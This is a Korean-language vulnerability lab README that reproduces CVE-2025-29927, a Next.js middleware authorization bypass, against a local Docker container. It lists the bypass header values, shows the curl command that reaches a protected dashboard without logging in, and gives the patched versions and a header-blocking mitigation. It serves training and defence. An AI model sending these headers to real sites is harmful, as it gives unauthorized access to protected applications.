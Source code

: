 # Next.js Middleware Authorization Bypass (CVE-2025-29927)
> 화이트햇스쿨 3기 17반 박민영</br>
> 깃허브 링크 (https://github.com/minyoung13/kr-vulhub/tree/minyoung13/CVE-2025-29927) </br>
> Pull Request #260 (https://github.com/gunh0/kr-vulhub/pull/260)

## 1. Next.js 미들웨어 인증 우회 취약점이란?
이 취약점은 Next.js 웹 프레임워크에서 발생하는 보안 취약점으로, 공격자가 미들웨어 기반의 인증 절차를 우회하여 시스템에 접근할 수 있게 한다.
공격자는 특정 값을 가진 `x-middleware-subrequest` 헤더를 추가함으로써 미들웨어를 우회할 수 있으며, 이를 통해 인증되지 않은 사용자가 인증이 필요한 페이지에 무단으로 접속하여 공격할 수 있다. 

### 공격 예시
프레임워크의 버전에 따라 아래와 같은 값을 요청에 추가하면 미들웨어를 우회할 수 있다.</br>
`x-middleware-subrequest: pages/_middleware`</br>
`x-middleware-subrequest: middleware`</br>
`x-middleware-subrequest: src/middleware`</br>
`x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware`</br>

## 2. 취약한 환경 구성
1. `docker compose up -d` 명령어로 Next.js 15.2.2 버전의 컨테이너를 시작한다.
![image1](images/README-01.jpg)

2. `docker ps` 명령어로 실행 중인 컨테이너 목록을 확인한다.
![image2](images/README-02.jpg)

3. 애플리케이션이 시작되면, `http://localhost:3000` 주소를 방문할 때 로그인 페이지로 리디렉션된다.</br>
![image3](images/README-03.jpg)

 `admin/password`를 입력하여 로그인하면 대시보드에 접근할 수 있다.
   ![image4](images/README-04.jpg)
   
## 3. 취약점 재현
- 인증 과정 없이 대시보드에 접근하려고 하면 로그인 페이지로 리디렉션된다.

```bash
curl -i http://localhost:3000
```

![image5](images/README-05.jpg)

- http 요청에 `x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware` 값을 추가하면 미들웨어를 우회하여, 인증 없이 대시보드에 접근할 수 있다.

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000
```

  ![image6](images/README-06.jpg)

## 4. 취약점 대처 방안
해당 취약점이 수정된 버전으로 업그레이드하여 사용하여야 한다.
- Next.js 15.x → 15.2.3
- Next.js 14.x → 14.2.25
  
업그레이드하지 못하거나 아래의 버전의 경우 `x-middleware-subrequest` 헤더가 포함된 외부 요청이 애플리케이션에 도달하지 못하도록 해당 헤더를 제거하거나 차단하도록 구성하여야 한다.
- Next.js 11.1.4~13.5.6 

## 5. 참고자료
[vulhub/next.js/CVE-2025-29927(영어)
](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)</br>
[vulhub/next.js/CVE-2025-29927(중국어)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)</br>
[CVE-2025-29927: Next.js Middleware Authorization Bypass - Technical Analysis](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass)</br>
[Next.js and the corrupt middleware: the authorizing artifact](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
